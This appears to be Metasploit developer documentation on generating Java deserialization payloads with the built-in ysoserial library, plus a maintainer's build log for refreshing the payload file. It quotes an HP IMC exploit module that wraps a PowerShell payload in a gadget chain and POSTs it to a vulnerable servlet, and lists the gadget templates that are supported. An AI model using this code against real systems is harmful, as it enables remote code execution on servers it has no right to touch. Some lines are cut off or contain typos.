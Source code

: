 Instead of embedding static Java serialized objects, Metasploit offers ysoserial-generated binaries with built-in randomization.  The benefits of using the Metasploit library include quicker module development, easier-to-read code, and future-proof Java serialized objects.

From the user's perspective, the use of the 

To use the ysoserial libraries, let's look at an example from []`hp_imc_java_deserialization:`](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/http/hp_imc_java_deserialize.rb)

### Example code

In this example, the module calls `cmd_psh_payload` to generate a PowerShell payload, then uses the `ysoserial` library to generate a `JSON1`-based serialized object, before sending it through an HTTP POST request:

```
1   def exploit
2     cmd = cmd_psh_payload(payload.encoded, payload_instance.arch.first, {remove_comspec: true, encode_final_payload: true})
3     data = ::Msf::Util::JavaDeserialization.ysoserial_payload("JSON1",cmd)
4
5     print_status "Sending serialized Java object (#{data.length} bytes)..."
6     res = send_request_cgi({
7       'method'   => 'POST',
8       'uri'      => normalize_uri(target_uri.path, 'topo', 'WebDMDebugServlet'),
9       'data'     => data
10    })
11  end
```

In line 3, the module uses the `ysoserial_payload` function, passing the name of the template and the command to be embedded within the template.  The function returns a Java serialized object, which can then be passed to the vulnerable application.

### Calling `ysoserial_payload`

The function takes two parameters, a template name and a command:
 
 - The name parameter must be one of the support payloads stored in the `ysoserial` cache.  As of this writing, the list includes: `BeanShelll1`, `Clogure`, `CommonBeanutils1`, `CommonsCollections2`, `CommonsCollections3`, `CommonsCollections4`, `CommonsCollections5`, `CommonsCollections6`, `Groovy1`, `Hibernate1`, `JBossInterceptors1`, `JRMPClient`, `JSON1`, `JavassistWeld1`, `Jdk7u21`, `MozillaRhino1`, `Myfaces1`, `ROME`, `Spring1`, `Spring2`, and `Vaadin1`.  While `ysoserial` includes 8 other templates that are not listed above, these 8 payloads are unsupported by the library due to the need for complex inputs.  Should there be use cases for those 8 templates, please consider opening an issue and submitting a pull request to add support.
 
 - The command parameter will be executed by the remote system.  The parameter is OS-agnostic, meaning that the module must determine the OS and architecture, if necessary, before generating a payload.

### Regenerating the ysoserial_payload JSON file (MAINTAINERS ONLY)

**Neither module developers nor users need to concern themselves with the following.**

<details>
<summary>Click to expand</summary>
On occasion, Metasploit maintainers may want to re-run the script generation to incorporate new Java serialized objects from the ysoserial tool.

To avoid invoking Java (and all its dependencies), the serialized objects are generated based on a JSON file.  The JSON file can be refreshed using a standalone Ruby script, which comes prepackaged with a Docker image that handles downloading `ysoserial`.  For more information, refer to `tools/payloads/ysoserial`.  An example run looks like:

```
$ cd ~/git/r7/metasploit-framework/tools/payloads/ysoserial
$ ./runme.sh 
Sending build context to Docker daemon  101.8MB
Step 1/8 : FROM ubuntu
 ---> cd6d8154f1e1
Step 2/8 : RUN apt update && apt -y upgrade
 ---> Using cache
 ---> ba7e5691ed5a
Step 3/8 : RUN apt install -y wget openjdk-8-jre-headless ruby-dev make gcc
 ---> Using cache
 ---> d38488663627
Step 4/8 : RUN wget -q https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial-original.jar
 ---> Using cache
 ---> 284ff722464b
Step 5/8 : RUN wget -q https://github.com/pimps/ysoserial-modified/raw/master/target/ysoserial-modified.jar
 ---> Using cache
 ---> 334c1ccb6fab
Step 6/8 : RUN gem install --silent diff-lcs json pry
 ---> Using cache
 ---> 9d452be9d01f
Step 7/8 : COPY find_ysoserial_offsets.rb /
 ---> 61b6f339590c
Step 8/8 : CMD ruby /find_ysoserial_offsets.rb
 ---> Running in ba7b14646e56
Removing intermediate container ba7b14646e56
 ---> f4ca5ecb6848
Successfully built f4ca5ecb6848
Successfully tagged ysoserial-payloads:latest
Generating payloads for BeanShell1...
Generating payloads for C3P0...
    Error while generating or serializing payload
    java.lang.IllegalArgumentException: Command format is: <base_url>:<classname>
    	at ysoserial.payloads.C3P0.getObject(C3P0.java:48)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'C3P0' and it will not be supported
Generating payloads for Clojure...
Generating payloads for CommonsBeanutils1...
Generating payloads for CommonsCollections1...
Generating payloads for CommonsCollections2...
Generating payloads for CommonsCollections3...
Generating payloads for CommonsCollections4...
Generating payloads for CommonsCollections5...
Generating payloads for CommonsCollections6...
Generating payloads for FileUpload1...
    Error while generating or serializing payload
    java.lang.IllegalArgumentException: Unsupported command  []
    	at ysoserial.payloads.FileUpload1.getObject(FileUpload1.java:71)
    	at ysoserial.payloads.FileUpload1.getObject(FileUpload1.java:40)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'FileUpload1' and it will not be supported
Generating payloads for Groovy1...
Generating payloads for Hibernate1...
Generating payloads for Hibernate2...
    Error while generating or serializing payload
    java.sql.SQLException: DataSource name cannot be empty string
    	at javax.sql.rowset.BaseRowSet.setDataSourceName(BaseRowSet.java:855)
    	at com.sun.rowset.JdbcRowSetImpl.setDataSourceName(JdbcRowSetImpl.java:4307)
    	at ysoserial.payloads.Hibernate2.getObject(Hibernate2.java:58)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'Hibernate2' and it will not be supported
Generating payloads for JBossInterceptors1...
Generating payloads for JRMPClient...
Generating payloads for JRMPListener...
    Error while generating or serializing payload
    java.lang.NumberFormatException: For input string: ""
    	at java.lang.NumberFormatException.forInputString(NumberFormatException.java:65)
    	at java.lang.Integer.parseInt(Integer.java:592)
    	at java.lang.Integer.parseInt(Integer.java:615)
    	at ysoserial.payloads.JRMPListener.getObject(JRMPListener.java:42)
    	at ysoserial.payloads.JRMPListener.getObject(JRMPListener.java:34)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'JRMPListener' and it will not be supported
Generating payloads for JSON1...
Generating payloads for JavassistWeld1...
Generating payloads for Jdk7u21...
Generating payloads for Jython1...
    Error while generating or serializing payload
    java.lang.IllegalArgumentException: Unsupported command  []
    	at ysoserial.payloads.Jython1.getObject(Jython1.java:52)
    	at ysoserial.payloads.Jython1.getObject(Jython1.java:42)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'Jython1' and it will not be supported
Generating payloads for MozillaRhino1...
Generating payloads for Myfaces1...
Generating payloads for Myfaces2...
    Error while generating or serializing payload
    java.lang.IllegalArgumentException: Command format is: <base_url>:<classname>
    	at ysoserial.payloads.Myfaces2.getObject(Myfaces2.java:47)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'Myfaces2' and it will not be supported
Generating payloads for ROME...
Generating payloads for Spring1...
Generating payloads for Spring2...
Generating payloads for URLDNS...
    Error while generating or serializing payload
    java.net.MalformedURLException: no protocol: 
    	at java.net.URL.<init>(URL.java:593)
    	at ysoserial.payloads.URLDNS.getObject(URLDNS.java:56)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'URLDNS' and it will not be supported
Generating payloads for Vaadin1...
Generating payloads for Wicket1...
    Error while generating or serializing payload
    java.lang.IllegalArgumentException: Bad command format.
    	at ysoserial.payloads.Wicket1.getObject(Wicket1.java:59)
    	at ysoserial.payloads.Wicket1.getObject(Wicket1.java:49)
    	at ysoserial.GeneratePayload.main(GeneratePayload.java:34)
  ERROR: Errored while generating 'Wicket1' and it will not be supported
DONE!  Successfully generated 0 static payloads and 22 dynamic payloads.  Skipped 8 unsupported payloads.
```

At completion, the `data/ysoserial_payloads.json` file is overwritten and the 22 dynamic payloads are ready for use within the framework.  Afterward, the developer should follow the standard `git` procedures to `add` and `commit` the new JSON file  before generating a pull request and landing the updated JSON into the framework's `master` branch.
</details>